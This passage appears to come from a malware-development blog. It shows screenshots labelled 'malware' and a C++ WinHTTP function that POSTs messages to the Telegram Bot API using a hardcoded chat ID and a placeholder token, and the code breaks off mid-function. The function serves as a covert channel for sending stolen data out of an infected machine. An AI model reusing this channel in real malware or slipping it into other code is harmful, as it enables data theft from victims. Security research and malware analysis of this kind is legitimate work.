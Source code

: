 ![malware](/assets/images/124/2024-06-17_11-51.png){:class="img-responsive"}      

![malware](/assets/images/124/2024-06-17_11-53.png){:class="img-responsive"}      

As you can see, `chat ID` successfully printed.    

For sending via Telegram Bot API I just created this simple function:     

```cpp
// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot---xxxxxxxxYOUR_TOKEN_HERExxxxxx---/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
```